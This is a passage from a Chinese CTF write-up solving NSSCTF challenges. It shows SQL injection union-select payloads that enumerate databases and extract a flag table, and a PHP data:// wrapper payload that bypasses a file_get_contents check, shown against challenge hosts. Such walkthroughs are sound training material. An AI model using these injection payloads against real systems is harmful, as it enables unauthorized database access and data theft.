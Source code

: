 ```
```
查询内容
![alt text](image-150.png)
得到一个假的flag
看来不是这个数据库
```
-1)))))) union select 1,schema_name from information_schema.schemata--+

```
查询其他数据库
![alt text](image-151.png)
看到还有一个 ctftraining 数据库
然后经行同样的操作
```
id=-1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema="ctftraining" 
```
区别就是将原来的database()改为数据库名，记住加双引号
```
http://node5.anna.nssctf.cn:24324/?id=-1)))))) union select 1,group_concat(column_name) from information_schema.columns where table_schema="ctftraining" and table_name="flag"--+

```

![alt text](image-153.png)
```
-1)))))) union select 1,flag from ctftraining.flag--+
```
构造paload查找内容
![alt text](image-154.png)
得到falg

## [GDOUCTF 2023]泄露的伪装
>url:https://www.nssctf.cn/problem/3700
>知识点：php伪协议

直接用随波逐流扫描目录
![alt text](image-161.png)
一个一个试过去，到test.txt，得到一段php代码
```php
<?php
error_reporting(0);
if(isset($_GET['cxk'])){
    $cxk=$_GET['cxk'];
    if(file_get_contents($cxk)=="ctrl"){
        echo $flag;
    }else{
        echo "娲楁礂鐫″惂";
    }
}else{
    echo "nononoononoonono";
}
?>
```
这里主要需要理解file_get_contents函数
构造cxk参数使其指向内容为"ctrl"的资源，用data协议可以将内容写入
构造payload：
```
http://node5.anna.nssctf.cn:24082/orzorz.php?cxk=data://text/plain,ctrl
```
![alt text](image-162.png)
